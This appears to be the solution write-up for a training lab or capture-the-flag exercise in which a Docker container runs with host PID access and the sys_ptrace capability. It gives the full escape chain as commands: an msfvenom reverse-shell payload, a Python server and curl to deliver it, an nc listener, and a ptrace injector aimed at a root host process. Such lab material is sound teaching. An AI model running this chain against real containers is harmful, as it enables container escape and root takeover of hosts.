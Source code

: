 # Attacking Container Capabilities - Solution

* Login to the container using below command. Ensure that you run this in the `CTF` vm 

```bash
docker exec -it sysmon bash
```

![docker exec into sysmon](images/sysmon-access.png)

* Check for existing capabilities by running `capsh --print`

![capsh print](images/sysmon-capsh.png)

* Also the container has enabled `--pid=host` so we can access then host process using `top` command

![top command](images/sysmon-top.png)

> Since an attacker can list host processes and has the `sys_ptrace` capability. Attacker can exploit this scenario to inject and execute code from the address space of any host process. This effectively results in a docker escape as the attacker can execute code outside the container.

## Steps to attack

* Generate reverse shell payload using metasploit's `msfvenom` program. Replace the `192.168.56.3` with student vm IP address.

```bash
cd /home/student/linux-injector

msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.56.3 LPORT=4444 -f raw -o payload.bin
```

![msfvenom generate](images/sysmon-msfvenom-generate.png)

* Send the exploit and injector program to the container using simple python server. Run the below command in student vm

```bash
cd /home/student
tar -czf linux-injector.tar.gz linux-injector
python -m SimpleHTTPServer 8002
```

![start python server](images/sysmon-start-python-server.png)

* Download the payload in the ctf vm container. Run the below command in the CTF vm and inside the `sysmon` container. Ensure you replace the `192.168.56.3` with your student vm IP


```bash
curl -o linux-injector.tar.gz http://192.168.56.3:8002/linux-injector.tar.gz
tar xzf linux-injector.tar.gz
cd linux-injector
chmod 755 injector
```

![download the payload](images/sysmon-download-payload.png)


* Start the `nc` listener to receive the connect back shell in student vm. Run the following command in student VM

```bash
nc -lvp 4444
```

![start nc listener](images/start-nc-listener.png)


* Now identify the process, which is running as `root` in the host system to gain root access for connect back. Run the following command inside CTF vm `sysmon` container

```bash
ps auxx | grep root | grep ping
```

![sysmon payload execution](images/sysmon-payload-execution.png)

```bash
./injector 2046 payload.bin
```

* On successful injection of payload, we get a reverse connection at our listener with access to host system outside the container

![got access to host system flag](images/sysmon-access-host-flag.png)

